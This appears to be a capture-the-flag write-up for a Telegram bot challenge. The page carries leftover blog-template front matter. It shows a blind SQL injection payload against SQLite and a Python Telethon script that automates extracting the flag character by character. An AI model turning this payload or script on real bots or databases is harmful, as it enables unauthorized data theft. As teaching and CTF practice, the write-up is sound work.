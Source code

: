 ```yaml
---
title: Getting Started
author: Cotes Chung
date: 2019-08-09 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


### Description
This challenge is hard and requires programming skills to solve it quickly.
```
Its Shopping day

Telegram alias: @ctgrocerybot
```
![](../../assets/img/posts/1/1.png)

### Enumeration
After trying different things. I concluded that it's vulnerable to blind SQLi.
Also, it's using Sqlite.
You can learn more about this type of sqli vulnerability from [here.](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
)

### Manual Exploitation
The payload that we'll be using is below.
```sql
/price flag' AND (SELECT CASE WHEN (SUBSTR(flag,1,1)='a') THEN 1/0 ELSE 'a' END FROM flags)='a"
```
Basically, we'll test lower case alphabets, numbers and underscore for each character flag !

Indeed, you should test uppercase and other non alphanumeric chars, but in our case I know flag possible chars.

In total, over than 3k lines to send to the bot, but you can reduce them by guessing some words in the flag and knowing how it starts,...

### Automatic Exploitation
The problem here that we can't use sqlmap because Telegram uses Websockets for communication.

So, the solution is to write a client to talk to Telegram API and send all payloads to the bot.

First, go to [my.telegram.org/auth](https://my.telegram.org/auth). Add and confirm your phone then go to API development tools and fill in the form with any data.
After that, you'll receive an API_ID and API_HASH that you'll use in the script below.

```python
from telethon.sync import TelegramClient
from string import ascii_lowercase, ascii_uppercase, digits
import time

bot = "@ctgrocerybot"

api_id = 
api_hash = ""

flag_chars = ascii_lowercase + digits + "_"

sleep = 0.5
success = "the item you requested is not found"


flag = "FLAG{"

with TelegramClient('session',api_id,api_hash) as client:
    for pos in range(6, 43):
        for char in flag_chars:
            payload = "/price flag' AND (SELECT CASE WHEN (SUBSTR(flag," + str(
                pos) + ",1)='" + char + "') THEN 1/0 ELSE 'a' END FROM flags)='a"
            print("--> Sending payload: " + payload)
            msg = client.send_message(bot, payload)
            payload_response = client.get_messages(bot)
            print(payload_response[0].message)
            if payload_response[0].message == success:
                flag += char
                print("\033[91m--> Flag: " + flag + "\033[00m")
                break
            print("--> Sleeping for 0.5 seconds")
            time.sleep(sleep)
    client.run_until_disconnected()
flag += "}"
print("\033[91m--> Flag: " + flag + "\033[00m")
```

Make sure to replace `bot`,`api_id` and `api_hash` variables with the corresponding values